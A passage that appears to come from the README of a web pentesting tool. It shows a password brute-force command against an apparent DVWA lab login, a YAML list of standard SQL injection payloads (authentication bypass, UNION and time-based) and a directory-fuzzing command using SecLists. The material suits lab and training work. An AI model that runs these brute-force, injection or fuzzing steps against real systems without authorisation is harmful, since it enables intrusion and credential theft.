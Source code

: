 ```bash
  --passwords passwords.txt \
  --cookies "PHPSESSID=your-session-id; security=low" \
  --method GET \
  --detection text \
  --success-text "Welcome to the password protected area" \
  --workers 20

# Expected output shows valid credentials when found
```

---

## ⚙️ Configuration Files

### SQLi Payload Configuration

Create custom payloads in `payloads/`:

```yaml
# payloads/mysql-payloads.yaml
mysql:
  - payload: "' OR '1'='1"
    type: "authentication_bypass"
    risk: "high"
  - payload: "' UNION SELECT NULL,NULL,NULL--"
    type: "union_based"
    risk: "critical"
  - payload: "' AND SLEEP(5)--"
    type: "time_based"
    risk: "medium"
```

### Fuzzing Wordlists

Built-in wordlists are included, but you can use custom ones:

```bash
# Use SecLists (popular wordlist collection)
git clone https://github.com/danielmiessler/SecLists.git

# Directory fuzzing with SecLists
netool fuzz \
  --url https://example.com \
  --mode dir \
  --wordlist SecLists/Discovery/Web-Content/common.txt
```

---

## 🔧 Development

### Project Structure

